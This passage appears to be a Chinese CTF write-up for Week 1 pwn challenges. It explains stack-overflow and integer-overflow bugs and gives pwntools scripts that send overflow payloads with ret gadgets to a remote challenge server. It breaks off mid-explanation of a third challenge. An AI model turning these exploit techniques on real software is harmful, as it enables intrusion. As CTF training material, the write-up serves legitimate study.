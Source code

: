 #### ***[Week 1] 2. stack overflow\***

ida反编译如下：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-9-1024x527.png" alt="img" style="zoom:50%;" />

注意语句 signal(11,getflag); 其中getflag只会给你半个flag，所以需要绕过11号报错，即sigment fault。加俩ret指令就可，所以代码如下。

```
from pwn import *
io = remote('47.97.58.52',40001)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.recvuntil(b'her:\n')
io.send(b'A'*32 + p64(0x40101a) + p64(0x40101a) + p64(0x4012BD))
io.interactive()
```

#### ***[Week 1] 3. positive\***

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-10-1024x627.png" alt="img" style="zoom:50%;" />

显然是个整数溢出题，溢出整数buf为‘-1’因为类型转换的问题nbytes比较会失效，造成最后read函数存在栈溢出漏洞，直接给代码

```
from pwn import *
io = remote('47.97.58.52',40002)
#io = process('./pwn2')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.recvuntil(b'walk:\n')
io.send(b'-1')
#gdb.attach(io)
#pause()
io.recvuntil(b'walking:')
io.send(b'A'*56 +p64(0x40101a) + p64(0x40126A))
io.interactive()
```

#### ***[Week 1] 4. find_me\***

main函数如下

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-11-1024x681.png" alt="img" style="zoom:50%;" />

do_bad()函数如下

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-12-1024x687.png)

通过时间为种子生成随机数，打开v4次fake_flag，每次打开都会使新产生的文件描述符增加1，所以我们需要绕过随机数，然后在do_bad()函数中，将正确的文件描述符“找出来”，将flag写入&what，再从&what读出来

这时候需要用到ctypes库了

ctypes 是Python的外部函数库。它提供了C兼容 数据类型，并允许调用 DLL 或共享库中的函数。它可以是 用于将这些库包装在纯Python中.

我们使用语句
